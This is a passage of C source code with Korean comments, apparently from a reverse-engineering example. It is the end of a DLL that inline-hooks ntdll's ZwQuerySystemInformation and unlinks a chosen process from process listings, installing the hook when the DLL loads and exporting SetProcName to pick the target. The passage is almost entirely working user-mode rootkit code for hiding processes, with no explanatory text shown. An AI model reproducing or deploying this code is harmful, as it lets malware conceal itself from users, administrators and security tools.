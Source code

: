 ```c
                    else
                        pPrev->NextEntryOffset += pCur->NextEntryOffset;
                }
                else		
                    pPrev = pCur;
            }

            if(pCur->NextEntryOffset == 0)
                break;

            // 연결 리스트의 다음 항목
            pCur = (PSYSTEM_PROCESS_INFORMATION)
                    ((ULONG)pCur + pCur->NextEntryOffset);
        }
    }

__NTQUERYSYSTEMINFORMATION_END:

    // 함수 종료 전에 다시 API Hooking
    hook_by_code(DEF_NTDLL, DEF_ZWQUERYSYSTEMINFORMATION, 
                 (PROC)NewZwQuerySystemInformation, g_pOrgBytes);

    return status;
}

BOOL WINAPI DllMain(HINSTANCE hinstDLL, DWORD fdwReason, LPVOID lpvReserved)
{
    char            szCurProc[MAX_PATH] = {0,};
    char            *p = NULL;

    // #1. 예외처리
    // 현재 프로세스가 HookProc.exe 라면 후킹하지 않고 종료
    GetModuleFileNameA(NULL, szCurProc, MAX_PATH);
    p = strrchr(szCurProc, '\\');
    if( (p != NULL) && !_stricmp(p+1, "HideProc.exe") )
        return TRUE;

    switch( fdwReason )
    {
        // #2. API Hooking
        case DLL_PROCESS_ATTACH : 
        hook_by_code(DEF_NTDLL, DEF_ZWQUERYSYSTEMINFORMATION, 
                     (PROC)NewZwQuerySystemInformation, g_pOrgBytes);
        break;

        // #3. API Unhooking 
        case DLL_PROCESS_DETACH :
        unhook_by_code(DEF_NTDLL, DEF_ZWQUERYSYSTEMINFORMATION, 
                       g_pOrgBytes);
        break;
    }

    return TRUE;
}

#ifdef __cplusplus
extern "C" {
#endif
__declspec(dllexport) void SetProcName(LPCTSTR szProcName)
{
    _tcscpy_s(g_szProcName, szProcName);
}
#ifdef __cplusplus
```